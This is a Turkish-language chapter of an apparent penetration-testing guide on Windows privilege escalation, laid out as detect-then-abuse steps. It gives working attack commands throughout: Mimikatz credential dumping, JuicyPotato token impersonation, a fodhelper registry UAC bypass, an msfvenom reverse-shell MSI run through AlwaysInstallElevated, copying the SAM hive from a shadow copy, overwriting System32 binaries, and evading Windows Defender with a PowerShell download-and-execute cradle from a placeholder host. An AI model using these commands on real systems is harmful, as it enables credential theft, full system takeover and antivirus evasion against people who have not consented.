 **Windows Privilege Escalation: Exploiting Security Features (Güvenlik Özelliklerini Kötüye Kullanma)**

Windows, kullanıcıların ve sistemin güvenliğini sağlamak için birçok güvenlik özelliği sunar. Ancak, bu özellikler bazen yanlış yapılandırılabilir veya saldırganlar tarafından kötüye kullanılabilir. Bu bölümde, güvenlik özelliklerinin nasıl exploit edilebileceği detaylı şekilde açıklanmıştır.

---

### **8.1. SeDebugPrivilege Abuse**

**SeDebugPrivilege**, kullanıcıların sistem üzerindeki işlemleri debug etmesine izin verir. Bu ayrıcalığa sahip bir kullanıcı, sistemde çalışan süreçlerin belleğini manipüle ederek zararlı kod çalıştırabilir.

#### **Tespit**
- Kullanıcının ayrıcalıklarını kontrol edin:
  ```cmd
  whoami /priv
  ```

- **SeDebugPrivilege** etkinse, saldırı gerçekleştirilebilir.

#### **Kötüye Kullanma**
1. **Mimikatz** kullanarak bir işlem belleğini manipüle edin:
   ```cmd
   mimikatz.exe
   privilege::debug
   sekurlsa::logonpasswords
   ```
2. SYSTEM yetkisiyle çalışan bir işlemi hedef alın ve zararlı kod enjekte edin.

---

### **8.2. SeImpersonatePrivilege Abuse**

**SeImpersonatePrivilege**, bir işlemin başka bir kullanıcının bağlamında çalışmasına izin verir. Bu ayrıcalık, SYSTEM yetkisiyle çalışan işlemleri taklit etmek için kullanılabilir.

#### **Tespit**
- Ayrıcalıkları kontrol edin:
  ```cmd
  whoami /priv
  ```

#### **Kötüye Kullanma**
1. **JuicyPotato** veya **PrintSpoofer** gibi araçları kullanın:
   ```cmd
   JuicyPotato.exe -l 1337 -p cmd.exe -t *
   ```
2. Bu araçlar, SYSTEM yetkisiyle çalışan bir işlem bağlamında kod çalıştırabilir.

---

### **8.3. UAC (User Account Control) Bypass**

UAC, kullanıcı hesaplarının yüksek ayrıcalıklı işlemler başlatmasını kontrol etmek için kullanılan bir Windows güvenlik özelliğidir. Ancak, bazı durumlarda bu özellik atlatılabilir.

#### **Tespit**
- Kullanıcının UAC seviyesi:
  ```cmd
  reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v ConsentPromptBehaviorAdmin
  ```

#### **Kötüye Kullanma**
1. **Fodhelper Exploit**:
   - Kayıt defteri kullanarak zararlı bir komut enjekte edin:
     ```cmd
     reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
     fodhelper.exe
     ```

2. **Metasploit** ile UAC atlatma:
   ```cmd
   msfconsole
   use exploit/windows/local/bypassuac
   set SESSION [session_id]
   run
   ```

---

### **8.4. AlwaysInstallElevated Abuse**

**AlwaysInstallElevated** ilkesi etkinse, kullanıcılar SYSTEM yetkisiyle MSI dosyalarını çalıştırabilir.

#### **Tespit**
1. AlwaysInstallElevated ayarlarını kontrol edin:
   ```cmd
   reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
   ```

#### **Kötüye Kullanma**
1. Zararlı bir MSI dosyası oluşturun:
   ```cmd
   msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f msi > malicious.msi
   ```
2. MSI dosyasını SYSTEM yetkisiyle çalıştırın:
   ```cmd
   msiexec /quiet /qn /i C:\path\to\malicious.msi
   ```

---

### **8.5. SeBackupPrivilege Abuse**

**SeBackupPrivilege**, dosyaların ve dizinlerin yedeklenmesi için kullanılır. Bu ayrıcalık, normalde erişilemeyen hassas dosyaların kopyalanmasına izin verebilir.

#### **Tespit**
- Ayrıcalıkları kontrol edin:
  ```cmd
  whoami /priv
  ```

#### **Kötüye Kullanma**
1. Hassas bir dosyanın yedeğini alın:
   ```cmd
   robocopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\Temp\SAM
   ```
2. SAM dosyasını analiz ederek kullanıcı hash’lerini çıkarın.

---

### **8.6. SeRestorePrivilege Abuse**

**SeRestorePrivilege**, dosyaları geri yüklemek için kullanılır. Bu ayrıcalık, sistem dosyalarını değiştirmek veya kötüye kullanmak için kullanılabilir.

#### **Kötüye Kullanma**
1. Geri yükleme ayrıcalığını kontrol edin:
   ```cmd
   whoami /priv
   ```

2. SYSTEM32 dizininde bir dosyayı değiştirmek için:
   ```cmd
   icacls C:\Windows\System32\targetfile.exe /grant everyone:F
   copy malicious.exe C:\Windows\System32\targetfile.exe
   ```

---

### **8.7. Bypass Windows Defender**

Windows Defender, zararlı yazılımları ve exploitleri tespit etmek için kullanılır. Ancak, bazı yöntemlerle atlatılabilir.

#### **Kötüye Kullanma**
1. **Obfuscation**:
   - Powershell scriptlerinizi obfuscate edin.
   - Örnek:
     ```powershell
     IEX(New-Object Net.WebClient).DownloadString('http://[IP]/payload.ps1')
     ```

2. **Encoding**:
   - Zararlı kodunuzu Base64 encode ederek çalıştırın.
     ```cmd
     powershell -EncodedCommand [Base64Command]
     ```

---

### **Araçlar**
- **JuicyPotato / PrintSpoofer**: SeImpersonatePrivilege kötüye kullanımı için.
- **Metasploit Framework**: UAC bypass ve AlwaysInstallElevated exploitleri için.
- **Mimikatz**: Ayrıcalıkları kötüye kullanarak şifre ve hash çıkarımı için.
- **PowerShell Empire**: Post-exploitation saldırıları için.

---

